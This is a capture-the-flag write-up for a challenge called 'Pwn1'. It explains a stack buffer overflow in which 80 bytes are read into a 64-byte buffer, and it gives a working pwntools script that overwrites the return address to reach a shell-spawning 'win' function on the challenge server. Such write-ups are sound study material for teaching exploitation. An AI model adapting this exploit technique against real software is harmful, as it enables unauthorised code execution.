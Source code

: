 # Pwn1
We are given a connection to a server<br>
First of all we want to decompile the binary. <br>
In <i>main</i> function the program takes input from user then returns fake flag. <br>
![preview](images/1.png)

We can also see that there is another function called <i>win</i> which returns shell. <br>
![preview](images/2.png)
### Solution
This code takes 80 bytes from user and tries to put it in 64 byte char table. That leads to overflow and we can use it to redirect code execution to <i>win</i> function. <br>
So we can just enter payload consisting of 72 bytes of padding and 8 bytes long address of <i>win</i> function<br> to overwrite instruction pointer and redirect code execution <br>
![preview](images/3.png)<br>
### Code
```
from pwn import *

host = 'challs.n00bzunit3d.xyz'
port = '35932'

context.binary = 'pwn1'

padding = 72*'a'
address = pack(0x40124a)
payload = padding.encode('utf-8') + address

conn = remote(host,port)

conn.sendline(payload + b'cat flag.txt')
print(conn.recv())
print(conn.recv())
print(conn.recv())
```
### Why does it happen?

As you can see on disassembly of <i>main</i> function it first creates 64 bytes stack and before return it frees up the stack with leave instruction which is shorthand for:
```
mov rsp, rbp
pop rbp
```
![preview](images/4.png)
So if we can input 80 bytes to 64 bytes big stack, we can overflow it and make <i>main</i> function ret to address of <i>win</i> function and hence redirect code to <i>win</i> function.
